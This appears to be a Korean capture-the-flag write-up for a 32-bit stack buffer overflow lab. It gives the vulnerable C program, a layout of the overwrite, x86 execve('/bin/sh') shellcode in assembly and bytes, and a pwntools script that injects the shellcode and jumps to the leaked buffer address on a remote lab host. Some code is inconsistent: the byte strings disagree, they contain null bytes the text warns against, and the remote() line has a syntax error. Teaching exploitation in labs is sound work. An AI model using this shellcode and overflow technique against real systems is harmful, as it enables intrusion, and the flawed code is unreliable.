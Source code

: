 # 문제 풀이 방법

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```
위 코드를 보면 `initialize()` 함수에서 `SIGALRM`을 발생시키고 30초가 지나면 `alarm_handler` 함수가 수행되어 `exit(-1);`에 의해 프로그램이 종료된다.  
따라서 30초가 넘어가기 전에 해당 프로그램을 익스플로잇하여 쉘코드를 실행해야한다.

이 문제에서는 scanf 함수의 취약점을 통해 익스플로잇 할 수 있다. buf의 크기는 0x80(128)인데 141 바이트 크기의 string을 입력받고 있기 때문에, `sfp`와 `return address`를 덮어쓸 수 있다.  

```
|-----------------------|   Low Address
|          buf          |
|          buf          |  <= 0x80
|          buf          |
|-----------------------|
|          SFP          |  <= 0x04
|-----------------------|
|          RET          |  <= 0x04
|-----------------------|   High Address
```

해당 코드에서 `printf("buf = (%p)\n", buf);`를 통해 buf의 주소를 print해주는데,

1. buffer의 주소를 return address에 넣고
2. buffer에는 쉘코드를 삽입하면 쉘을 얻을 수 있다.

## 쉘코드 작성

우리가 작성하고자 하는 쉘 코드는 `execve('bin/sh', 0, 0);`을 실행하여 쉘을 얻는 코드이다. 내용은 아래와 같다.

참고로 문제의 해당 실행 환경이 **i386(x86)** 이므로 32bit에 맞춰 어셈블리 코드를 작성해야한다. 
```
section .text
global _start

_start:
    xor eax,eax       ; 뒤에서 execve() 콜을 위해 eax를 0으로 초기화해주는 부분 (대부분 0이 들어있기 때문에 필수적이지는 않지만 권장)
    push 0x68732f     ; push 0x0068732f와 같다.
    push 0x6e69622f   ; 여기서 두번째 push때 4바이트 크기의 값이 아닌 3바이트 크기의 값이 push되면 끝에 0x00(Null String)이 추가되어 String이 이어지지 않고 끊기게 되니까 주의하자 ex) push 0x69622f
    mov ebx, esp      ; arg0 : ebx = 'bin/sh'
    xor ecx, ecx      ; arg1 : ecx = 0
    xor edx, edx      ; arg2 : edx = 0
    mov al, 0x8       ; mov eax, 0x8도 가능하지만, 더 효율적인 작업을 위해 al에 0x8 대입
    inc al            ; eax = 0x9
    inc al            ; eax = 0xa
    inc al            ; eax = 0xb
    int 0x80          ; execve call 발생
```

1. `eax`를 0으로 초기화 하는 이유는 뒤에서 eax가 아닌 `al`에 0x8을 대입하는데, al은 1바이트 공간이기 때문에 혹시라도 만약 al 상위 바이트가 0으로 초기화되어 있지 않으면 0x8이 아닌 다른 값으로 eax가 인식되기 때문에 `xor eax, eax`를 통해 0으로 초기화시켜준다.  
(만약 `mov al, 0x8`이 아닌 `mov eax, 0x8` 이라면 초기화할 필요 X)
2. 이후 push를 통해 esp에 값을 대입하는데 무조건 처음 push할 때, 나머지를 가져가고 이후 push에서는 4바이트 단위로만 push 해야 중간에 `0x00(NULL String)`이 삽입되지 않는다.
3. 32bit에서는 system call의 인자가 `rdi, rsi, rdx, ...` 순이 아닌 `ebx, ecx, edx, ...' 순이기 때문에 ebx에 esp값을 대입해주고 나머지 인자를 0으로 초기화시켜준다.
4. 32bit에서 execve의 system call 번호(eax 값)는 `0xb`인데, ASCII 값에서 `0xb`는 개행문자이므로, 이를 scanf에 입력하면 개행문자까지만 값을 받고 뒤의 값을 버리게 되기 때문에, 개행문자가 아닌 `mov al, 0x8`이후 `inc al`을 3번하여 eax에 `0xb`를 대입해야한다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbaFBgG%2FbtrUtG8jkdw%2FWx912dGg3GcIdDJL7ROEi1%2Fimg.png)


6. 32bit에서 systemcall은 `syscall`이 아닌 `int 0x80`으로 수행한다.
7. 이후 쉘코드를 얻어오면 다음 값을 갖는다. `\x31\xc0\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

## 익스플로잇 코드 작성

1. 프로그램 실행에서 buf의 주소를 print해주는데, 이 주소를 받아와서 return address에 삽입하기 위해 `buf_address`에 기록한다.    
여기서, `p.recvuntil(b'buf = (')`를 통해 받은 값은 String 값인데, 주소는 String 값이 아닌 정수 값으로 해석되기 때문에 이 String 값을 정수값으로 변경해준다. (String을 ASCII 값에 따라 정수로 해석하는 것이 아닌 정수 그 자체로 해석)
그리고 0xnnnnnnnn까지만 받아야 하므로 10byte만 받는다.

3. buf에는 shellcode를 입력하고, shellcode를 입력하고 **남은 buf 공간과**, **sfp**공간은 아무 값으로 채워서 payload에 전달해준다. (buf space + sfp space = 0x84)
4. 이후 return_address에 우리가 저장한 `buf_address`를 little endian byte string 배열로 packing해서 payload에 전달한다.
5. 공격 수행 후 쉘을 획득하면 `ls`와 `cat` 명령어를 통해 flag를 읽어온다.

익스플로잇 코드는 아래와 같다.
```
from pwn import *

context.arch = "i386"
p = remote("host3.dreamhack.games", 21235")

p.recvuntil(b'buf = (')
buf_address = int(p.recv(10), 16) # 10byte만큼 recv후 받은 값을 16진수로 해석하여 buf_address에 저장

shellcode = b'\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb8\x08\x00\x00\x00\x40\x40\x40\xcd\x80'

payload = shellcode + b'a'*(0x84-len(shellcode)) + p32(buf_address)

p.sendline(payload)

p.interactive()
```
